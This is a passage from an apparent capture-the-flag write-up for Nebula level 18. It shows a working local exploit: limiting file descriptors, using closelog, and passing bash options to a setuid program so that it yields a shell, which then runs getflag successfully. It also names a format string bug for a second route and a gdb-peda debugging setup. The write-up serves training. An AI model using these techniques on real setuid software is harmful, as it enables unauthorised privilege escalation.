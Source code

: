 ```
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```

We used `closelog` to close one used descriptor and the shell is invoked,
unfortunately we need to get rid of -d parameter too, bash is recycling
our argv, see `execve("/bin/sh", argv, envp);`. 

We tried `--init-file` as it has the second argument some file:

```
sh-4.2$ ulimit -n 5

sh-4.2$ /home/flag18/flag18 --init-file -d /dev/tty -vvv
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'n'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 't'
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
Starting up. Verbose level = 3
login
got [login] as input
attempting to login
login
got [login] as input
attempting to login
logged in successfully (without password file)
closelog
got [closelog] as input
shell
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
getflag
You have successfully executed getflag on a target account
```

Second way is to use format string exploitation, line 48 is vulnerable at `notsupported()` function.

For debugging, we downloaded `gdb-peda`:

```
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

```
level18@nebula:/tmp$ gdb -q /home/flag18/flag18 
Reading symbols from /home/flag18/flag18...(no debugging symbols found)...done.

gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
